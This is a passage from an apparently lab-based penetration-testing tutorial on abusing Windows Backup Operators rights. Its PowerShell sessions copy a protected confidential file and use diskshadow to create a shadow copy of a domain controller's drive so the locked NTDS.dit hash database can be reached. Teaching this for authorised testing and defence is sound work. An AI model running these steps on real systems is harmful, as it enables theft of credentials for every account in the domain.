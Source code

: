 ```powershell-session
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes


PS C:\htb>  cat .\Contract.txt

Inlanefreight 2021 Contract

==============================

Board of Directors:

<...SNIP...>
```

### Attacking a Domain Controller - Copying NTDS.dit

This group also permits logging in locally to a domain controller. The active directory database `NTDS.dit` is a very attractive target, as it contains the NTLM hashes for all user and computer objects in the domain. However, this file is locked and is also not accessible by unprivileged users.

As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the `C` drive and expose it as `E` drive. The NTDS.dit in this shadow copy won't be in use by the system.
```powershell-session
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:


    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```